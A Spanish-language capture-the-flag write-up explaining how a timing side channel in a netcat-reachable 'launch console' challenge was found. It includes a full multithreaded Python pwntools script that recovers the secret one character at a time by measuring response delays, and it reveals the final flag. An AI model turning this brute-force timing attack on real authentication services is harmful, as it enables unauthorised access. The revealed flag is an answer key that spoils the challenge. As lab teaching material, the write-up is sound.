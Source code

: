 ## Enunciado
Welcome to the North Korean Nuclear Lunch Control Console!
ctf.alphasec.eu:8002

## Solucion
Nos encontramos ante un reto que al principio no se tiene mucha idea de que va ya que nos conectamos mediante netcat al puerto y direccion y probamos enviar distintos tipos de caracteres, sentencias de distintos lenguajes, numerosos caracteres por si hay un buffer overflow, etc y no sucumbe a nada.

Al dia siguiente se subio una imagen como pista.
![hint](./assets/hint.jpg)

En dicha imagen se menciona que puede que haya un side channel attack en la pulsacion de teclas.

Al principio no nos dice mucho pero probando a enviar cada caracter y calculando el tiempo que tarda en responder podemos ver que hay un caracter que tarda un segundo mas que el resto.

Y que esto se repetia caracter a caracter, por ejemplo, para el primer caracter todos tardaban aproximadamente un segundo y uno de ellos dos segundos, para el segundo caracter todos tardaban dos segundos excepto uno que tardaba tres, y asi sucesivamente.

Para llevar a cabo esta tarea cree un script en python que lo automatizaba, basicamente lo que hacia era enviar uno a uno todos los caracteres y quedandose en cada iteracion con el que mas ha tardado.

Dado que esto era muy lento decidi hacerlo multithreading.

### Codigo
```
from pwn import *
import string  
import time

#context.log_level = 'debug'

globalFlag = ""
globalTimes = {}
sem = threading.Semaphore()

def worker(id,startVal,endVal):
    global globalFlag
    global globalTimes
    try:
        for c in string.printable[startVal:endVal]:
            while True:
                try:
                    io = remote('ctf.alphasec.eu', 8002)
                    io.recv()
                    io.recv()
                    start = time.time()
                    io.sendline(globalFlag + c)
                    io.recv()
                    io.recv()
                    elapsed = time.time() - start
                    sem.acquire()
                    globalTimes[c] = elapsed
                    sem.release()
                    io.shutdown()
                    io.close()
                except Exception as ex:
                    print "[+] Algo ha petado, reintentando..."
                    print ex
                    continue
                finally:
                    break
    except Exception as ex:
        print "[+] Algo gordo ha petado"
        print(ex)
    print "[+] He terminado " + str(id)

# Inicializar tiempos a 0
for c in string.printable:
    globalTimes[c] = 0

for iteraciones in range(0,10):
    threads = []
    for i in range(0,10):
        if i < 9:
            t = threading.Thread(target=worker, args=(i,i*10,(i*10)+10))
        else:
            t = threading.Thread(target=worker, args=(i,i*10,94))
        threads.append(t)
        t.start()
    for t in threads:
        t.join()
    carac = ''
    biggestTime = 0
    for key,value in globalTimes.items():
        if value > biggestTime:
            biggestTime = value
            carac = key
    globalFlag += carac
    print "[+] Current Flag: " + globalFlag
```

El codigo ademas incluye algunas tacticas por si la conexion se corta o falla para que no crashee ni pierda la cuenta.

Si ejecutamos el script obtendremos la flag al cabo de unos minutos.
![flag_1](./assets/flag_1.png)
![flag_2](./assets/flag_2.png)

### flag{DyN@$+y_84}